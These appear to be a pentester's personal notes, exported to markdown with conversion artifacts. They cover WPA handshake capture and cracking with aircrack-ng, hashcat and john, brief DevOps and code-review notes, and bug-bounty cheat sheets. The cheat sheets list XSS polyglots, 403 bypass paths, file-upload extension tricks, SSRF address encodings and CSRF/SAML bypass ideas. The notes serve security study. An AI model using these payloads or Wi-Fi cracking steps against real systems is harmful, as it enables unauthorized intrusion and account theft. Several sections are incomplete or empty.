<p id="gdcalert398" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image398.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert399">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**IEEE 802.11ac, appelé également Wi-Fi 5, est un standard de transmission sans fil de la famille Wi-Fi, normalisé par l'IEEE le 8 janvier 2014.**

**Evil twin : malicious copy of legitimate network with the same name and similar features.**

**WPA3 (WiFi Protected Access 3) is the latest WiFi security standard announced by WiFi Alliance in 2018. It will succeed the WPA2 standard. Simultaneous Authentication of Equals (SAE) is a new feature in WPA3 which will replace the WPA2-PSK network. SAE has multiple new security features like perfect forward secrecy, protection against passphrase bruteforce and Protected Management Frames (PMF).**

**Enhanced Open is a new WiFi Alliance security standard for open public networks. It is based on Opportunistic Wireless Encryption (OWE). OWE provides privacy and secrecy without authentication without the need for a commonly known secret.**


* Password Cracking ( WPA/WPA2 BForcing )

Brute-forcing : majority of network devices and applications lack the resilience to effectively detect and prevent brute-force attacks, it comes as an effective attack.

Theory before practice :

Wi-Fi Handshake : A handshake in Wi-Fi is a mechanism by which an access point authenticates a client to onboard it and use its services. In this handshake, we have something called a message integrity check (MIC), which is a combination of your Wi-Fi passphrase, nonce (random numbers), SSID and some other keys. this handshake only occurs when a user authenticates.

The goal is to capture this handshake (inside a .cap file), extract juicy information and brute force against the MIC to finally obtain a password. 

Pré-requis :


* 1) Avoir un external Wi-Fi adapter pouvant être mis en mode “monitor”.


### Steps :


* 1) putting our Wi-Fi adapter in monitor mode first :
    * airmon-ng start wlan0
* 2)  Find your access point target (here, SSID=raaj is the target ) :
    * airodump-ng wlan0mon


<p id="gdcalert399" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image399.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert400">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* 3) Capture a handshake :
    * airodump-ng wlan0mon -c3 --bssid 18:45:93:69:A5:19 -w pwd
        * -c : channel
        * -w : name to save as

        We have to force a user to reauthenticate by deauthenticating him. It can be done by aireplay-ng like this :

* aireplay-ng --deauth 0 -a 18:45:93:69:A5:19 wlan0mon

		Now, you have to wait until you get a Handshake :


<p id="gdcalert400" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image400.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert401">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* 4) Bruteforcing :
    * aircrack-ng handshake.cap -w dict.txt

        OU

    * cowpatty -r handshake.cap -f dict.txt -s raaj

        OU

* cd /usr/share/hashcat-utils

        ./cap2hccapx.bin /root/handshake.cap /root/handshake.hccapx


        hashcat -m 2500 handshake.hccapx dict.txt --show


		OU


* hcxpcapngtool --john hash.john handshake.cap

        john --format=wpapsk --wordlist dict.txt hash.john


        john --show hash.john


		

		It can be quite worth to try all the methods.


39. DevOps / DevOpsSec
* Définition

**DevOps is a set of practices that combines software development (Dev) and IT operations (Ops : Administration des systèmes ). It aims to provide continuous delivery with high software quality.**

**Understanding of DevOps processes is a must for a Pentester or DevOps professional.**

**DevSecOps refers to introducing security in different stages of the DevOps process.**

**DevOps differs from SDLC and Agile.**


## 
Etape Dev et Ops :		

<p id="gdcalert401" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image401.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert402">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert402" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image402.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert403">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**All Steps have to be automatic.**


## 
    Version Control System :


**This phase deals with the writing and management of the source code. When multiple developers are working on a big project, the code from all contributors needs to be collected in one place (Code Repository) before the build phase.**


## 
    Testing :


**Testing is done by the developers to make sure that the software/app is working fine. In this phase, we are focusing on the automated tests written by the developers that can be run automatically after each build.**


**Exemples de framework de test automatique : JUnit, Pytest, Tox, Selenium ( pour interagir avec les navigateurs )**


**    **


## 
    Intégration Continue :


**L’intégration continue est un ensemble de pratiques consistant à tester de manière automatisée chaque révision de code avant de le déployer en production. **


**Lorsque le développeur code une fonctionnalité, il conçoit également le test associé et ajoute le tout à son dépôt de code. Le serveur d’intégration va ensuite faire tourner tous les tests pour vérifier qu’aucune régression n’a été introduite dans le code source suite à cet ajout. Si un problème est identifié, le déploiement n’a pas lieu et les Dev sont notifiés. Si aucune erreur n’est remontée, le serveur d’intégration peut déployer directement le code en production.  **


**Ainsi, avec l’intégration continue la phase de tests automatisés est complètement intégrée au flux de déploiement. **


<p id="gdcalert403" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image403.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert404">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**Exemple de tools : Jenkins, Gitlab CI, Travis CI, TeamCity, GoCD**


**In the case of DevSecops, the CI  server triggers the security tools in different phases (e.g. Static Code Analysis, Dynamic Analysis, etc) and stores the logs/reports.  **


## 
    Infrastructure as Code


**Infrastructure as Code (IaC) dictates that the infrastructure needed to deploy (or test deploy) the application (e.g. application server, dependencies, WAF, database server, etc.), should be defined in a file/script that can be executed to make the infrastructure ready. It covers the tools/techniques used to automate the creation of setup for deployment (or test deployment) of the project. **


**Exemple de tool : Ansible**


**Why is “Infrastructure as Code” important in DevSecOps? **


**Infrastructure as Code saves the repetitive human effort in setting up and managing the infrastructure. It also removes the human error altogether (i.e. once the script is finalized) by making sure that everything is set up, in the same way, every time the script is run. It also ensures that the developers and testers are working on an accurate setup with no special settings/misconfiguration etc caused by the operations team.  **


40. Audit en boîte blanche

## 
Code Review : Strategies :

* **1) Read Everything ( function by function ) directly :**
    * **Very time consuming (Almost impossible if the code is too large)**
    * **Very good way when you are apart of an internal team and you aren’t just looking for vulnerabilities but also for weaknesses that can be fixed to increase the security. **
    * **But the coverage of the review the code is perfect**

<p style="text-align: right">


<p id="gdcalert404" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image404.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert405">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


</p>


* **2) Function to called function ( TOP to the BOTTOM ) :**
    * **By picking up a function (ideally directly accessible form an user) and reviewing every function that is called and doing the same process for the called functions.**


<p id="gdcalert405" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image405.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert406">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* **Only Searching for expressions or dangerous functions isn’t a good way to make a code review because :**
    * **Maybe the function in question is never accessed by any user input.**
* **3) Functionally by Functionally  :**
    * **Picking a functionality and reviewing the code that is linked with.**


<p id="gdcalert406" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image406.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert407">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


## 
Code Review : Reviewing :


* Méthode 1
    * Function context :


<p id="gdcalert407" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image407.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert408">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


41. Bug bounty Tips
* BB - Recon (file, url, subdomains):
* **For wordlist** : https://wordlists.assetnote.io/

<table>
  <tr>
   <td>
<ul>

<li><strong>Using grep to extract URLs in HTTP response : curl -i [URL] | grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*</strong>”
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>cd /home/kali/prog/lib/GRecon/ ; python3 grecon.py :</strong> 
<ul>
 
<li><strong>GRecon_Cli tool using Google Dork to find : </strong>  
<ul>
  
<li><strong>Sub-Subdomains</strong>
  
<li><strong>Signup/Login pages</strong>
  
<li><strong>Dir Listing</strong>
  
<li><strong>Exposed Docs ( pdf, xls, docx … )</strong>
  
<li><strong>WordPress Entries</strong>
  
<li><strong>Pasting Sites ( Records in pastebin, Ghostbin… )</strong>
</li>  
</ul>
</li>  
</ul>
</li>  
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>Grawler - v1.0 : Grawler is the best tool ever, made for automating google dorks (https://github.com/A3h1nt/Grawler)</strong>
    <strong>This is a website tool.</strong>
<p>

    <strong>Run with php -S localhost:8000 in the website folder ( tool folder ).</strong>
<ul>

<li>Fast Google Dorks Scan :

<p>
       
</li>
</ul>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>JavaScript recon automation :</strong> 
<ul>
 
<li><strong>Gather JSFile links from the target</strong>
 
<li><strong>Finding Endpoints From the JSFiles</strong>
 
<li><strong>Finding Secrets in the JSFiles</strong>
 
<li><strong>Get JSFiles locally for manual analysis</strong>
 
<li><strong>tools :</strong>  
<ul>
  
<li><strong>JSParser : parse relative URLs from JavaScript files</strong>
</li>  
</ul>
</li>  
</ul>
</li>  
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>Github</strong>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
</table>


* BB - CSRF Bypass protection :

<table>
  <tr>
   <td>
<ul>

<li><strong>Using a CSRF token across accounts</strong>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>Replacing value of same length : </strong>for instance it is an alphanumeric token of 32 characters under the variable authenticity_token you replace the same variable some other 32 character value
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>Removing the CSRF token from requests entirely ( or just the value of the parameter )</strong>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>Decoding CSRF tokens then identifying how it’s made and trying to modify it.</strong>
    Most of the time, CSRF tokens are either MD5 or Base64 encoded values.
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>Extracting token via HTML injection ( Dangling ... )</strong>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>Using only the static parts of the token if it’s made with a static part.</strong>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>Clickjacking</strong>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>Change the request method</strong>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>If the double-submit token cookie is used as the defense mechanism : 
<ul>
 
<li><strong>session fixation technique => Then, execute the CSRF with the same CSRF token that you fix as the cookie.</strong>
</li> 
</ul>
</li> 
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>For CSRF Protection via Referer : 
<ul>
 
<li><strong>You can add the following meta tag to the page hosting your payload to Remove the referer header.</strong> 
<ul>
 
<li><strong>You can try bypassing the verification of the header by including authorized terms in the URL CSRF payload.</strong> 
<ul>
 
<li><strong>Utiliser la fonction history.pushState() dans le payloads pour modifier l’en-tête Referer.</strong>
</li> 
</ul>
</li> 
</ul>
</li> 
</ul>
</li> 
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>Check if there is a CSRF token</strong>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>CSRF JSON Data :</strong> 
<ul>
 
<li><strong>Check if we change the Content-type to text/plain there is no error. Then, construct the CSRF.</strong> 
<ul>
 
<li><strong>Check if we change the Content-type to application/x-www-form-urlencoded there is no error. Then, construct the CSRF.</strong>
<ul>

<li><strong>Check if we change the Content-type to multipart/form-data there is no error. Then, construct the CSRF.</strong>
<ul>

<li><strong>Rajouter à la fin de l’url .json</strong>
<strong>https://medium.com/@osamaavvan/json-csrf-to-formdata-attack-eb65272376a2</strong>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
  </tr>
</table>


* 
BB - OAuth :

<table>
  <tr>
   <td>
<ul>

<li><strong>Test CSRF for Linking external Account</strong>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>Test CSRF into Open redirect for retrieving the victim’s token ( or code )</strong>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>1) CSRF-Login in the Authorisation Server</strong>

<li><strong>2) CSRF-Linking with the victim account and your AS account ( Authorization Server )</strong>
    <strong>3) Log in with your AS Account to take over the victim’s account.</strong>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
</table>


* BB - SAML  :

<table>
  <tr>
   <td>
<ul>

<li><strong>Comment injection in XML document in the mail address for login</strong>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>Signature Stripping</strong>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>Change the login of a user ( in the SAMLResponse )</strong>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>Try to use the default secret key provided by the library used.</strong>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
</table>


* BB - Bypassing 403 and 401 error :
* 

<table>
  <tr>
   <td>
<ul>

<li><strong>Use byp4xx script to automate the attack</strong>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>Changing HTTP verbs</strong>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>Plugin on Burp suite : 403Bypasser  =>  automates bypassing of 403 Forbidden errors.</strong>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>target.com/admin..;/</strong>

<li><strong>target.com/../admin</strong>

<li><strong>target.com/whatever/..;/admin</strong>

<li><strong>target.com/admin/</strong>

<li><strong>target.com/admin/.</strong>

<li><strong>target.com//admin//</strong>

<li><strong>target.com/./admin/..</strong>

<li><strong>target.com//admin/*</strong>

<li><strong>http://site.com/secret => 200 OK ( http sans le S )</strong>

<li><strong>site.com/%2f/secret.txt/</strong>

<li><strong>target.com/admin%20/</strong>

<li><strong>target.com/%20admin%20/</strong>

<li><strong>target.com/admin%20/page</strong>

<li><strong>/.;/admin</strong>

<li><strong>/admin;/</strong>

<li><strong>/admin/~</strong>

<li><strong>/admin?param</strong>

<li><strong>/%2e/admin</strong>

<li><strong>/admin#</strong>

<li><strong>by deeper traversing :</strong> 
<ul>
 
<li><strong>/.git => 403</strong>
 
<li><strong>/.git/config => 200 OK</strong>
</li> 
</ul>

<li><strong>Headers to Rewrite URLs :</strong> 
<ul>
 
<li><strong>X-Original-URL: /admin OR localhost</strong>
 
<li><strong>X-Override-URL: /admin</strong>
 
<li><strong>X-Rewrite-URL: /admin</strong>
 
<li><strong>X-Originating-IP: /admin</strong>
 
<li><strong>X-Remote-IP: /admin</strong>
 
<li><strong>X-Client-IP: /admin</strong>
 
<li><strong>X-Forwarded-For: /admin</strong>
 
<li><strong>...</strong>
</li> 
</ul>
</li> 
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>Try inserting unicode characters to bypass the defenses</strong> 
<ul>
 
<li><strong>Example : ℀ = ca, ℁ = sa</strong>
        <strong>So if /cadmin is blocked, try accessing ℀dmin.</strong>

<p>
<strong>You can find example on this site : <a href="https://github.com/filedescriptor/Unicode-Mapping-on-Domain-names">https://github.com/filedescriptor/Unicode-Mapping-on-Domain-names</a></strong>
</li> 
</ul>
</li> 
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>Referrer: target.com/admin</strong>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
</table>


* BB : File upload :

<table>
  <tr>
   <td>
<ul>

<li>Alternative to classic extensions :
<ul>

<li>PHP: .php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc
<ul>

<li>ASP: .asp, .aspx, .config, .ashx, .asmx, .aspq, .axd, .cshtm, .cshtml, .rem, .soap, .vbhtm, .vbhtml, .asa, .cer, .shtml
<ul>

<li>Jsp: .jsp, .jspx, .jsw, .jsv, .jspf, .wss, .do, .action
<ul>

<li>Coldfusion: .cfm, .cfml, .cfc, .dbm
<ul>

<li>Flash: .swf
<ul>

<li>Perl: .pl, .cgi
<ul>

<li>Erlang Yaws Web Server: .yaws
<ul>

<li>using some uppercase letters: pHp, .pHP5, .PhAr ...
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>Bypass file extensions checks 
<ul>
 
<li>1) Adding a valid extension before the execution extension   
<ul>
  
<li>file.png.php
  
<li>file.png.Php5
<ul>

<li>2) Try adding special characters at the end ( with a wordlist; bruteforce with Burp ). 
<ul>
 
<li>file.php%20
 
<li>file.php%0a
 
<li>file.php%00
 
<li>file.php%0d%0a
 
<li>file.php/
 
<li>file.php.\
 
<li>file.
 
<li>file.php....
 
<li>file.pHp5....
<ul>

<li>file.php%00.png

<li>file.php\x00.png

<li>file.php%0a.png

<li>file.php%0d%0a.png

<li>file.phpJunk123png

<li>file.png.jpg.php

<li>file.php%00.png%00.jpg
<ul>

<li>3) Try to put the exec extension before the valid extension and pray so the server is misconfigured : 
<ul>
 
<li>ex: file.php.png
</li> 
</ul>
</li> 
</ul>
</li> 
</ul>
</li> 
</ul>
</li> 
</ul>
</li> 
</ul>
</li> 
</ul>
</li> 
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>Turning LFI to RCE in PHP using ZIP wrapper
Condition :
<ul>

<li>For PHP based websites.

<li>We can upload zip files.

<li>LFI (Local File Inclusion) vulnerability present in the server
<p>


<p id="gdcalert408" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image408.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert409">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p>

Using this trick ( zip ) we have basically circumvented the file upload restrictions of the web application disallowing us to upload a php file directly.
</li>
</ul>
</li>
</ul>
   </td>
  </tr>
</table>


* BB : Broken access control :

<table>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
</table>


* BB - XSS  :
* 

<table>
  <tr>
   <td>
<ul>

<li><strong>Payload in XML file :</strong>
    

<p id="gdcalert409" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image409.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert410">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>XSS recon :</strong> 
<ul>
 
<li><strong>xss_check [URL] ( without “https://” )</strong>
</li> 
</ul>
</li> 
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>Polyglot payload ( depending on the situation,adapt it and do not copy & paste blindly ) :</strong> 
<ul>
 
<li><strong>-->'"/>&lt;/sCript>&lt;deTailS open x=">" ontoggle=(co\u006efirm)``></strong>
 
<li><strong>jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//&lt;/stYle/&lt;/titLe/&lt;/teXtarEa/&lt;/scRipt/--!>\x3csVg/&lt;sVg/oNloAd=alert()//>\x3e</strong> 
<ul>
 
<li><strong>jaVasCript:/*-->&lt;/title>&lt;/style>&lt;/textarea>&lt;/script>&lt;/xmp>&lt;svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'></strong>
</li> 
</ul>
</li> 
</ul>
</li> 
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>DOM-XSS scanner online :</strong> 
<ul>
 
<li><strong>https://domxssscanner.geeksta.net/scan?</strong>
</li> 
</ul>
</li> 
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>XSS firewall bypass techniques</strong> 
<ul>
 
<li><strong>lower/uppercase : &lt;sCRipT>alert(1)&lt;/sCRiPt></strong>
 
<li><strong>CRLF injection : &lt;script>%0d%0aalert(1)&lt;/script></strong>
 
<li><strong>Double encoding : %2522</strong>
 
<li><strong>Testing for recursive filters : &lt;scr&lt;script>ipt>alert(1);&lt;/scr&lt;/script>ipt></strong>
 
<li><strong>Injecting anchor tag without whitespaces : &lt;a/href="j&Tab;a&Tab;v&Tab;asc&Tab;ri&Tab;pt:alert&lpar;1&rpar;"></strong>
 
<li><strong>Try to bypass whitespaces using a bullet : &lt;svg•onload=alert(1)></strong>
 
<li><strong>Try to change request method</strong>
 
<li><strong>Add any number of \n, \t or \r : java\nscript</strong>
 
<li><strong>Add characters from \x00-\x20 at the beginning : \x01javascript</strong>
 
<li><strong>Variation of alert() : write(1) , confirm(1), prompt(1)</strong>
 
<li><strong>payload without parenthesis : </strong>
            <strong>&lt;script>onerror=alert;throw 1&lt;/script></strong>
<ul>

<li><strong>window[/loc.source%2B/ation/.source] ( Regex for bypass words filtered )</strong>
</li>
</ul>
</li>
</ul>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
</table>


* BB - SSRF  :
* 

<table>
  <tr>
   <td>
<ul>

<li><strong>payload for finding internal service :</strong> 
<ul>
 
<li><strong><a href="http://127.1/">http://127.1/</a></strong>
 
<li><strong><a href="http://0000::1:80/">http://0000::1:80/</a></strong>
 
<li><strong><a href="http://[::]:80/">http://[::]:80/</a></strong>
 
<li><strong><a href="http://2130706433/">http://2130706433/</a></strong>
 
<li><strong><a href="http://whitelisted@127.0.0.1">http://whitelisted@127.0.0.1</a></strong>
 
<li><strong><a href="http://0x7f000001/">http://0x7f000001/</a></strong>
 
<li><strong><a href="http://017700000001">http://017700000001</a></strong>
 
<li><strong><a href="http://0177.00.00.01">http://0177.00.00.01</a></strong>
 
<li><strong>http://0xd8.0x3a.0xd6.0xe3</strong>
 
<li><strong>http://0xd83ad6e3</strong>
 
<li><strong>http://0xd8.0x3ad6e3</strong>
 
<li><strong>http://0xd8.0x3a.0xd6e3</strong>
 
<li><strong>http://0330.072.0326.0343</strong>
 
<li><strong>http://000330.0000072.0000326.00000343</strong>
 
<li><strong>http://033016553343</strong>
 
<li><strong>http://3627734755</strong>
 
<li><strong>http://%32%31%36%2e%35%38%2e%32%31%34%2e%32%32%37</strong>
 
<li><strong>http://216.0x3a.00000000326.0xe3</strong>
 
<li>
</li> 
</ul>
</li> 
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>You can also use Weird Unicode characters for bypassing</strong>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>You can also utilize the nio.io service, which is a simple wildcard DNS service for any IP address :</strong> 
<ul>
 
<li><strong>10.0.0.1.nip.io maps to 10.0.0.1</strong>
 
<li><strong>app.10.8.0.1.nip.io maps to 10.8.0.1</strong>
 
<li><strong>customer1.app.10.0.0.1.nip.io maps to 10.0.0.1</strong>
</li> 
</ul>
</li> 
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>Use absolute URL on HTTPs syntax protocol</strong> 
<ul>
 
<li><strong>GET [ENTIRE_URL] HTTP/1.1 instead of GET /[FILE] HTTP/1.1</strong>
</li> 
</ul>
</li> 
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
</table>


* BB - Login/password form  :

<table>
  <tr>
   <td>
<ul>

<li><strong>Check if there is a rate limiting login attempts ( against brute forcing )</strong>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>Weak password policy ( see in password reset also )</strong>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>Username enumeration</strong> 
<ul>
 
<li><strong>Status codes</strong>
 
<li><strong>Error messages</strong>
 
<li><strong>Response times</strong>
</li> 
</ul>
</li> 
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>Application logins that are not protected by TLS encryption</strong>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>2FA :</strong> 
<ul>
 
<li>
</li> 
</ul>
</li> 
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>SQL Injection</strong>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
  </tr>
</table>


* BB - CORS :

<table>
  <tr>
   <td>
<ul>

<li><strong>Check there is the header Access-Control-Allow-Credentials to be set to true ( allow the victim’s browser to send the credentials by the cookie )</strong>
    <strong>If this is the case, you can then try an HTTP header injection.</strong>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>Check if the Origin Header is reflected in the header responses of ACAO header.</strong>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>

